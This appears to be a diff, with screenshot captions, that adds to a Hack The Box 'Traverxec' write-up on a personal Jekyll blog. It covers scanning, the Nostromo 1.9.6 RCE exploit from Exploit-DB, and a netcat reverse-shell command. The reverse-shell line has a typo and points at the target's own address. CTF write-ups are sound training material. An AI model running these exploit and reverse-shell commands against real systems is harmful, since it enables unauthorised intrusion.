

Before and after one commit to mattellquist/gimikbugs.github.io, a Jekyll site: the page built from _posts/2020-08-24-hack-the-box-traverxec.md, in a window 1280 px wide and 1400 px high, scrolled down 900 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 1829 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
trying to make my first post...

````diff
--- a/_posts/2020-08-24-hack-the-box-traverxec.md
+++ b/_posts/2020-08-24-hack-the-box-traverxec.md
@@ -26,3 +26,51 @@ nmap -p$ports -sC -sV 10.10.10.165
 ```
 
 ![Initial NMAP](/images/traverxec/nmap.png)
+
+Once the scan completes, it reveals ports 22 and 80 are open. NMAP also reports that the `http-server-header` is `nostromo 1.9.6`, which indicates the box is running the `Nostromo` HTTP server.
+
+# Nostromo
+
+![Nostromo](/images/traverxec/nostromo.png)
+
+The webpage appears to be pretty empty, resulting in very little information at first look. So, we fire off a gobuster:
+
+```bash
+gobuster dir -u http://10.10.10.165 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -n
+```
+
+While we let gobuster run in the background, I look to Google. After a bit of digging, we find that Nostromo version 1.9.6 has a [Remote Code Execution](https://www.exploit-db.com/exploits/47837) vulnerability. Being that this exploit is found on Exploit-DB, that usually means there is a Metasploit module for it - which means we can "manually" exploit it or use Metasploit. I'll show both ways.
+
+1. "Manual" exploitation.
+
+First, we need to copy the exploit from exploit-db and inspect it:
+
+```bash
+searchsploit -m /multiple/remote/47837
+```
+---
+
+![Exploit](/images/traverxec/payload.png)
+
+### The heck is going on?
+
+Interesting. We're exploiting the `http_verify` function in nostromo nhttpd. Which is allowing us remote code execution. Let's test it out:
+
+```bash
+python 47837.py 10.10.10.165 80 id
+```
+
+Ok, cool, we got a response. Lets setup a listener and try to get a shell:
+
+```bash
+nc -lvnp 9001
+```
+
+```bash
+pythin 47837.py "nc -e bash 10.10.10.165 9001"
+```
+
+And........ We get a shell
+
+
+# Metasploit
````
Also changed, not shown: images/traverxec/nostromo.png (renamed from images/traverxec/enumeration2_50265115756_o.png), images/traverxec/payload.png (renamed from images/traverxec/payload_50264461078_o.png).
